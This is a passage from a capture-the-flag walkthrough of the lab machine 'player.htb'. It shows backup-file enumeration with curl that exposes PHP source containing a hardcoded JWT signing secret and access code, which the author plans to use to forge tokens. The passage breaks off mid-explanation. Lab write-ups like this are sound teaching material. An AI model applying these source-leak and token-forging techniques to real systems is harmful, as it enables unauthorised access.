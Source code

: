 So, That's was the sensitive file exposing they were talking abut in Chat

    /var/www/backup/service_config
    /var/www/staging/fix.php

But still not helpful so, Lets keep enumerating.

### Back again to Main

From Chat we knew that there should be a source code leakage vulnerability here. The only PHP pages we found were

    http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786e.php
    http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php
    http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786g.php

So trying things like ~, .bak, .swp. I found

    root@kali:# curl  http://player.htb/launcher/dee8dc8a47256c64630d803a4c40786c.php~
    <?php
    require 'vendor/autoload.php';

    use \Firebase\JWT\JWT;

    if(isset($_COOKIE["access"]))
    {
            $key = '_S0_R@nd0m_P@ss_';
            $decoded = JWT::decode($_COOKIE["access"], base64_decode(strtr($key, '-_', '+/')), ['HS256']);
            if($decoded->access_code === "0E76658526655756207688271159624026011393")
            {
                    header("Location: 7F2xxxxxxxxxxxxx/");
            }
            else
            {
                    header("Location: index.html");
            }
    }
    else
    {
            $token_payload = [
              'project' => 'PlayBuff',
              'access_code' => 'C0B137FE2D792459F26FF763CCE44574A5B5AB03'
            ];
            $key = '_S0_R@nd0m_P@ss_';
            $jwt = JWT::encode($token_payload, base64_decode(strtr($key, '-_', '+/')), 'HS256');
            $cookiename = 'access';
            setcookie('access',$jwt, time() + (86400 * 30), "/");
            header("Location: index.html");
    }

    ?>

Thats great, This source code revealed three things

First, JWT secret.
